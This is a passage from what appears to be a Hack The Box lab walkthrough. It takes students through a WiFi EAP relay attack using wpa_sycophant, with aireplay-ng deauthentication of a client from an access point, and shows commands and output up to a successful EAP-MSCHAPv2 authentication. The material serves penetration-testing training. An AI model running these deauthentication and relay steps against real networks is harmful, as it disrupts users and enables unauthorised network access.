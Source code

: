 Students will use `wpa_sycophant.sh` and specify the `wpa_sycophant.config` configuration file using the `-c` option to initiate the relay on the `wlan2` interface using the `-i` option:

Code: shell

```shell
/opt/wpa_sycophant/wpa_sycophant.sh -c wpa_sycophant.config -i wlan2
```

```
root@HTB-Corp:/opt/wpa_sycophant# /opt/wpa_sycophant/wpa_sycophant.sh -c wpa_sycophant.config -i wlan2

SYCOPHANT : RUNNING "./wpa_supplicant/wpa_supplicant -i wlan2 -c wpa_sycophant.config"
SYCOPHANT : RUNNING "dhclient wlan2"
Successfully initialized wpa_sycophant
                                                     _                 _   
 __      ___ __   __ _     ___ _   _  ___ ___  _ __ | |__   __ _ _ __ | |_ 
 \ \ /\ / / '_ \ / _\` |   / __| | | |/ __/ _ \| '_ \| '_ \ / _\` | '_ \| __|
  \ V  V /| |_) | (_| |   \__ \ |_| | (_| (_) | |_) | | | | (_| | | | | |_ 
   \_/\_/ | .__/ \__,_|___|___/\__, |\___\___/| .__/|_| |_|\__,_|_| |_|\__|
          |_|        |_____|   |___/          |_|                          

The most important part is the ascii art - Georg-Christian Pranschke

Set MANA to relay
```

Next, students will open a new terminal, switch to the `root` user, and are going to perform de-authentication using `aireplay-ng` and the obtained BSSIDs (MAC address) earlier:

Code: shell

```shell
sudo -s
aireplay-ng -0 10 -c 56:01:E5:AA:7B:96 -a DC:4B:03:39:BD:7A wlan0mon
```

```
root@HTB-Corp:/home/wifi# aireplay-ng -0 10 -c 56:01:E5:AA:7B:96 -a DC:4B:03:39:BD:7A wlan0mon

07:17:26  Waiting for beacon frame (BSSID: DC:4B:03:39:BD:7A) on channel 1
07:17:26  Sending 64 directed DeAuth (code 7). STMAC: [56:01:E5:AA:7B:96] [ 0| 0 ACKs]
07:17:26  Sending 64 directed DeAuth (code 7). STMAC: [56:01:E5:AA:7B:96] [ 0| 0 ACKs]
07:17:27  Sending 64 directed DeAuth (code 7). STMAC: [56:01:E5:AA:7B:96] [ 0| 0 ACKs]
07:17:28  Sending 64 directed DeAuth (code 7). STMAC: [56:01:E5:AA:7B:96] [ 0| 0 ACKs]
07:17:28  Sending 64 directed DeAuth (code 7). STMAC: [56:01:E5:AA:7B:96] [ 0| 0 ACKs]
07:17:29  Sending 64 directed DeAuth (code 7). STMAC: [56:01:E5:AA:7B:96] [ 0| 0 ACKs]
07:17:29  Sending 64 directed DeAuth (code 7). STMAC: [56:01:E5:AA:7B:96] [ 0| 0 ACKs]
07:17:30  Sending 64 directed DeAuth (code 7). STMAC: [56:01:E5:AA:7B:96] [ 0| 0 ACKs]
07:17:30  Sending 64 directed DeAuth (code 7). STMAC: [56:01:E5:AA:7B:96] [ 0| 0 ACKs]
07:17:31  Sending 64 directed DeAuth (code 7). STMAC: [56:01:E5:AA:7B:96] [ 0| 0 ACKs]
```

Students will notice the connection event in the `wpa_supplicant` process:

```
root@HTB-Corp:/opt/wpa_sycophant# /opt/wpa_sycophant/wpa_sycophant.sh -c wpa_sycophant.config -i wlan2

SYCOPHANT : RUNNING "./wpa_supplicant/wpa_supplicant -i wlan2 -c wpa_sycophant.config"
SYCOPHANT : RUNNING "dhclient wlan2"
Successfully initialized wpa_sycophant

<SNIP>

EAP-MSCHAPV2: Authentication succeeded
wlan2: CTRL-EVENT-EAP-SUCCESS EAP authentication completed successfully
wlan2: PMKSA-CACHE-ADDED dc:4b:03:39:bd:7a 0
```